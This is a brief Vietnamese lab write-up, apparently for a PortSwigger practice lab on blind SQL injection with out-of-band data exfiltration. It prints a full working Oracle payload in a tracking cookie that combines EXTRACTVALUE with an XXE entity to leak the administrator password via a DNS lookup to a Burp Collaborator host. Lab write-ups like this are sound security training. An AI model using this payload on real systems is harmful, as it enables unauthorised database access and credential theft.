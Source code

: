 ## Blind SQL injection with out-of-band data exfiltration

Tiếp tục sử dụng Burp Collaborator

Tham khảo [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) chúng ta sẽ lợi dụng EXTRACT VALUE trong SQL để sử dụng XXE attack để trigger đoạn query lookup DNS.

> **TrackingId=6tUkNaijRklEQOsv'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.gh1ioyaggfhbp6eospfcup66lxrnfc.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--**

Kết hợp nối chuỗi select password từ bảng users với user là admin

Kết quả request gửi tới collaborator sau khi trả về sau khi Pool sẽ có format password.host.burpcollaborator.net

![](/imgs/SQL-Injection/70.png?raw=true)

Login với tài khoản admin là solve

![](/imgs/SQL-Injection/71.png?raw=true)